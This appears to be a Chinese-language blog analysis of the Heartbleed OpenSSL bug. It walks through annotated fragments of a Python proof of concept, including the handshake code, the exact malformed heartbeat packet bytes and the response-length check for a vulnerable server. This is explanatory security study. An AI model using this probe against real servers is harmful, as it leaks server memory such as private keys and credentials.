 # 0x03 漏洞原理
Heartleed 漏洞攻击过程如下图所示，客户端向服务器发送心跳载荷长度（payload length）大于实际心跳载荷（payload）长度的心跳请求包，服务器会将内存中的额外数据返回给客户端，可能导致敏感信息泄露。  
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-7-1/16554705.jpg)  
## 1. POC 分析
通过分析 POC 可知， main 函数中首先与服务器建立 socket 连接；接着发送 SSL Client Hello 进行第一次握手，Client Hello 的 Heartbeat Hello 扩展中 Mode 字段为 peer_allowed_to_send 表明客户端支持心跳机制。若服务器返回 Server Hello Done 则表明已完成第一次握手过程；最后发送畸形心跳请求包即可触发漏洞。
```python
def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return
    # 与服务器建立socket连接
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    # 发送 Client Hello 握手包
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    # 等待服务器返回 Server Hello 握手包
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        # 服务器未返回 Server Hello 握手包，SSL 第一次握手失败
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # 若接收到 Server Hello Done 消息则 break
        # 其中，22表示握手包，0x0E表示握手包类型为 Server Hello Done
        if typ == 22 and ord(pay[0]) == 0x0E:
            break
    # 发送畸形心跳请求包
    print 'Sending heartbeat request...'
    sys.stdout.flush()
    hit_hb(s)
```
POC 中构造的畸形心跳请求包如下图所示，其中载荷长度（0x0155）大于实际载荷数据长度（0x05）。
```python
# 构造心跳请求包。
# 0x18:Heartbleed 消息类型; 0x0302:TLS1.1; 0x0008:心跳包长度; 0x01:Heartbleed request 类型;
# 0x0155:payload 长度; 5*' 41':载荷数据; 16*' 42':填充字节
hb = h2bin('18 03 02'+' 00 08'+' 01'+' 01 55'+5*' 41'+16*' 42')
```
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-7-1/95471870.jpg)  
hit_hb() 函数向服务器发送畸形心跳请求包，正常情况下服务器应返回的心跳响应包长度为 24 bytes。
```python
Heartbeat response length = 1 bytes(Heartbeat Type) + 2 bytes(Payload length) + 5 bytes(payload length)
+ 16 bytes(Padding) = 24 bytes
```
若服务器返回长度大于 24 bytes 的心跳响应包，则表明服务器存在该漏洞；若服务器没有返回心跳响应包，而是只返回类型值为 21 的警告包，则表明服务器不存在该漏洞。
```python
def hit_hb(s):
    s.send(hb)    # 发送心跳请求包
    while True:
        typ, ver, pay = recvmsg(s)    # 接收响应包
```